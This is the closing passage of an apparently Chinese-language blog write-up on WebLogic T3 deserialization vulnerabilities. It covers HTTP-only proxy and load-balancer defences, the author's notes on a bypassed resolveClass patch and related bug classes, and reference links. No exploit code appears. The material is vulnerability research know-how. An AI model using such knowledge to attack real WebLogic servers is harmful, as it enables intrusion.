- web代理的方式只能转发HTTP的请求，而不会转发T3协议的请求，这就能防御住T3漏洞的攻击。
- 负载均衡的情况下，可以指定需要进行负载均衡的协议类型，这么这里就可以设置为HTTP的请求，不接收其他的协议请求转发。这也是在外网中见到T3协议漏洞比较少的原因之一

# 写在最后

对java远程调试有了一定的了解，目前只复现了weblogic的一个漏洞，了解了T3协议在weblogic反序列化的用法，还有通过resolveclass对java反序列化的防御，这个补丁在后面也被绕过了，后面还是需要去分析一下怎么绕过的，还有weblogic的其他的一些历史漏洞，比如XMLDecoder相关的，还有最后导致JNDI注入的


参考链接

https://www.anquanke.com/post/id/240041#h3-6

https://xz.aliyun.com/t/10365#toc-0

https://www.anquanke.com/post/id/226070#h3-12

http://redteam.today/2020/03/25/weblogic%E5%8E%86%E5%8F%B2T3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E8%A1%A5%E4%B8%81%E6%A2%B3%E7%90%86/#CVE-2018-3191

https://xz.aliyun.com/t/10563#toc-9